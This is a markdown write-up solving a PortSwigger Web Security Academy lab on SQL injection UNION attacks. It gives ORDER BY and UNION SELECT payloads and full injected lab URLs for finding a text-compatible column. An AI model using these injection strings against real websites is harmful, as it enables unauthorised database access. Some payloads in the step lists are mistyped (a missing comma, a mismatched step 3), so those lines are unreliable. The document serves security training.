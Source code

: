 ## LAB 2: SQL injection UNION attack, finding a column containing text
[SQL injection UNION attack, finding a column containing text](https://portswigger.net/web-security/sql-injection/union-attacks/lab-find-column-containing-text)  
**LEVEL**: PRACTITIONER  
**Description**: This lab contains an SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response, so you can use a `UNION` attack to retrieve data from other tables. To construct such an attack, you first need to determine the number of columns returned by the query. You can do this using a technique you learned in a previous lab. The next step is to identify a column that is compatible with string data.

The lab will provide a random value that you need to make appear within the query results. To solve the lab, perform an SQL injection `UNION` attack that returns an additional row containing the value provided. This technique helps you determine which columns are compatible with string data.


## Solution
![LAB SCREENSHOT](./assets/lab2.1.PNG)

1. We need to determine the number of columns in the table
2. Determine which column is of type string/varchar
3. We need to return the random value(`opcYVA`) in one of the fields

### 1. Determine the number of columns in the table
Using `ORDER BY` we can determine the number of columns in the table. `ORDER BY` sorts a table by a given column index. We can increment the column number by one until we get an error which will tell us that the previous number is the number of columns in the table. 

Trying the following parameters
`' ORDER BY 1--`
`' ORDER BY 2--`
`' ORDER BY 3--`
`' ORDER BY 4--`

On the last paramter where we order by 4 we get the following error `Internal Server Error` which is a 500 internal error. This means the number of columns in the table is 3.

FULL URL: `https://ac761fff1f813142c0896b7a00dd0087.web-security-academy.net/filter?category=Accessories' ORDER BY 4--`


### 2. Searching for string/varchar column
We need to determine if a column is of type string/varchar this is because we want to be able to return the random string value provided to us by the site as one of the fields. We need to check each column for string/varchar compatibility by return the any string value for the column.

Trying the following parameters
`' UNION SELECT 'abc',NULL,NULL--`
`' UNION SELECT NULL'abc',NULL--` - WORKS!
`' UNION SELECT NULL,NULL'abc'--`


FULL URL: `https://ac761fff1f813142c0896b7a00dd0087.web-security-academy.net/filter?category=Accessories' UNION SELECT NULL,'ABC',NULL--`

### 3. Return NULL feild
We can now use `UNION` attack to return the random value with the NULL fields.

`' UNION SELECT NULL,NULL,NULL--`

FULL URL: `https://ac761fff1f813142c0896b7a00dd0087.web-security-academy.net/filter?category=Accessories' UNION SELECT NULL,'opcYVA',NULL--`


![SOLVED LAB SCREENSHOT](./assets/lab2.2.PNG)


<!-- EOF -->